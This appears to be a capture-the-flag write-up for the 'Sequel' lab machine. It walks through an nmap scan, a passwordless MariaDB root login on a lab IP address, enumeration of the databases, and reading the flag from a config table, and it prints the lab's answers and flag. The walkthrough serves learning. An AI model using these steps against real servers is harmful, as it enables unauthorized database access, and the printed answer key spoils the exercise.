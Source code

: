 #### Guide on SEQUEL CTF Machine

##### These are the default databases that are created automatically to support the database management system's functionality.

##### mysql: The mysql database contains system tables that store metadata and access control information. It is used for user and privilege management. 

##### information_schema: The information_schema database provides information about the database server and its schemas, tables, columns, and more. 

##### performance_schema: The performance_schema database is used for performance monitoring and diagnostics. 

##### test: The test database is for testing and experimentation.

1. During our scan, which port do we find serving MySQL?<br>
3306

	- the -F flag is used for fast scan mode. It scans the top 100 most commond tcp/udp ports.
	```bash
	nmap -F 10.129.144.109    
	Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 14:55 PST
	Nmap scan report for 10.129.144.109
	Host is up (0.24s latency).
	Not shown: 99 closed tcp ports (conn-refused)
	PORT     STATE SERVICE
	3306/tcp open  mysql

	Nmap done: 1 IP address (1 host up) scanned in 1.29 seconds
	```

2. What community-developed MySQL version is the target running?<br>
mariadb
	- -sC flag is used to define a script along the nmap
	```bash
	nmap -F -sC 10.129.144.109
	Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 15:05 PST
	Stats: 0:00:36 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
	NSE Timing: About 98.40% done; ETC: 15:06 (0:00:01 remaining)
	Nmap scan report for 10.129.144.109
	Host is up (0.24s latency).
	Not shown: 99 closed tcp ports (conn-refused)
	PORT     STATE SERVICE
	3306/tcp open  mysql
	| mysql-info: 
	|   Protocol: 10
	|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
	|   Thread ID: 73
	|   Capabilities flags: 63486
	|   Some Capabilities: LongColumnFlag, Speaks41ProtocolNew, Speaks41ProtocolOld, FoundRows, Support41Auth, InteractiveClient, SupportsLoadDataLocal, IgnoreSigpipes, SupportsTransactions, DontAllowDatabaseTableColumn, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, ODBCClient, SupportsCompression, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
	|   Status: Autocommit
	|   Salt: Y<`NDL0H]xfu<fmoiBK4
	|_  Auth Plugin Name: mysql_native_password

	Nmap done: 1 IP address (1 host up) scanned in 45.44 seconds
	```

3. When using the MySQL command line client, what switch do we need to use in order to specify a login username?<br>
-u

	- SHOW databases; - to show all databases
	- USE database_name - to use a database
	- SHOW tables - to show all tables of the selected database
	- SELECT * FROM table_name - to show all the contents of a table

	```bash
	mysql -h 10.129.144.109 -u root
	Welcome to the MariaDB monitor.  Commands end with ; or \g.
	Your MariaDB connection id is 142
	Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

	Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

	Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

	MariaDB [mysql]> SHOW databases;
	+--------------------+
	| Database           |
	+--------------------+
	| htb                |
	| information_schema |
	| mysql              |
	| performance_schema |
	+--------------------+
	4 rows in set (0.241 sec)

	MariaDB [mysql]> USE htb;
	Database changed
	MariaDB [htb]> SHOW tables;

	+---------------+
	| Tables_in_htb |
	+---------------+
	| config        |
	| users         |
	+---------------+
	2 rows in set (0.244 sec)

	MariaDB [htb]> SELECT * FROM config;
	+----+-----------------------+----------------------------------+
	| id | name                  | value                            |
	+----+-----------------------+----------------------------------+
	|  1 | timeout               | 60s                              |
	|  2 | security              | default                          |
	|  3 | auto_logon            | false                            |
	|  4 | max_size              | 2M                               |
	|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
	|  6 | enable_uploads        | false                            |
	|  7 | authentication_method | radius                           |
	+----+-----------------------+----------------------------------+
	7 rows in set (0.241 sec)
	```

4. Which username allows us to log into this MariaDB instance without providing a password?<br>
root

5. In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?<br>
&ast;

6. In SQL, what symbol do we need to end each query with?<br>
;

7. There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?<br>
htb
	- from the info that we got, htb is the only database that is not a default database of MySQL, so we can assume that the flag is in there
	
8. Submit root flag<br>
7b4bec00d1a39e3dd4e021ec3d915da8
	
	
	
	

